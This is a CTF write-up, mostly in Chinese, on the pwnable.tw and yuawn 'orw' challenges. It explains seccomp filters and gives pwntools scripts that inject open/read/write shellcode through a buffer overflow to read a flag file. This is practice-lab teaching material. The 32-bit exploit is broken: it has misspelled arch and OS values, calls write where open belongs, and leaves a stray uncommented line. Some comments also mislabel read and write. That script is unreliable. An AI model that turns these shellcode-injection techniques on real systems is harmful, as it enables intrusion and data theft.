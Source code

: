 ```yaml
---
title: pwnable orw & yuawn orw Writes up
published: 2024-08-07
tags: [CTF]
category: Cyber Security
draft: false
image: 'image.png'
---
```


## pwntools Review

設定環境:

``` py
context(arch='i386',os='linux')
```

## 暫存器 Review

|  暫存器   | 位元  |
|  ----  | ----  |
| rax  | 64 |
| eax  | 32 |

## What is orw
利用 open，read and write  這三個 systemcall 去取得 flag

## What is seccomp?
分析程式的 seccomp 狀態，查看哪一些 system call 被禁用

download :
```
sudo apt install gcc ruby-dev
gem install seccomp-tools
```

## 起手式

`seccomp-tools dump <filename>`


## demo yuawn orw (64 bits)

### Recon

file:

![image](https://hackmd.io/_uploads/SJLwfuk5R.png)

r2:

![image](https://hackmd.io/_uploads/r1FOMdy5R.png)

發現 sc 的部分是全域變數，然後他有給你位置，並且下面有一個 I give you bof 是用 gets 去讀，並且大小為 0x10+0x8

seccomp:

![image](https://hackmd.io/_uploads/BkPAGOJqR.png)

### exploit

``` py
from pwn import *

context(arch='amd64',os='linux')

r=process('./orw')
                                                        #利用('rax','rsp')去寫入
r.sendline(asm(shellcraft.open('/flag')+shellcraft.read('rax','rsp',0x100)+shellcraft.write(1,'rsp',0x100)))
                        #利用(1,'rsp',0x100)去寫入
r.sendlineafter(b':)', b'a'*0x18 + p64(0x6010a0))
r.interactive()
```


## demo pwnable orw (32 bits)

labs: https://pwnable.tw/static/chall/orw

### Recon

file: 

![image](https://hackmd.io/_uploads/B1EEY7150.png)

checksec:

![image](https://hackmd.io/_uploads/BJkBFX1qC.png)

exec: 

![image](https://hackmd.io/_uploads/BJOQsQ1q0.png)

seccomp:

![image](https://hackmd.io/_uploads/S1gYoXJ90.png)

disas main:

![image](https://hackmd.io/_uploads/HJR5smJcC.png)


### exploit

``` py

from pwn import *

context(arch='i384',os='linx')

r=remote('chall.pwnable.tw',10001)
                                         #讀利用(eax,esp,大小)
sc=asm(shellcraft.write('/home/orw/flag')+shellcraft.read('eax','ebp',0x100)+shellcraft.write(1,'ebp',0x100)) 寫利用(1,'esp',大小)

r.sendlineafter(':',sc)

r.interactive()
```


## References:

https://kazma.tw/2023/12/10/Yuawn-Pwn1-orw-Writeup/

https://kazma.tw/2024/02/07/Pwnable-tw-orw-Writeup/

https://www.youtube.com/watch?v=U8N6aE-Nq-Q 